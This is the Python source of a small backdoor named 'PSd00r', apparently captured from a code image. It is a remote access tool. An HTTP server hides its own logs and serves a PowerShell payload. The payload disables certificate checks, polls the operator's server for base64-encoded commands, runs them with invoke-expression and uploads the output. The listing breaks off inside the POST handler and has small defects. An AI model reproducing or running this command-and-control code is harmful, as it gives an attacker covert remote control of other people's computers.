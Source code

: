 ``` python
import base64
import argparse


code =   """
            function getUser() {{
                $string = ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Out-String
                $string = $string.Trim()
                return $string
            }}

            function getComputerName() {{
                $string = (Get-WmiObject Win32_OperatingSystem).CSName | Out-String
                $string = $string.Trim()
                return $string
            }}


            $resp = "http://{SERVER}:{PORT}/rat"
            $w = New-Object Net.WebClient
	        while($true)
	        {{
	        [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {{$true}}
	        $r_get = $w.DownloadString($resp)
            $d = [System.Convert]::FromBase64String($r_get);
            $Ds = [System.Text.Encoding]::UTF8.GetString($d);

	        while($r) {{
		        $output = invoke-expression $Ds | out-string
		        $w.UploadString($resp, $output)
		        break
	        }}
	        }}

        """


class myHandler(BaseHTTPRequestHandler):
    ''' simple backdoor http powershell command '''

    def log_message(self, format, *args):
        """ hide log output  """
        return

    def do_GET(self):
        if (self.path == "/connect"):
            self.send_response(200);
            self.send_header('Content-type',1);
            self.end_headers();
            self.wfile.write(code);

        elif "/rat" == self.path:
            self.send_response(200)
            CMD = base64.b64encode(raw_input("(PSd00r) > "))
            self.send_header('CMD',CMD) # simple test using header for send commands
            self.end_headers()
            self.wfile.write(CMD)

    def do_POST(self):
        if "/rat" == self.path:
            content_len = int(self.headers.getheader('content-length', 0))
            post_body = self.rfile.read(content_len)
```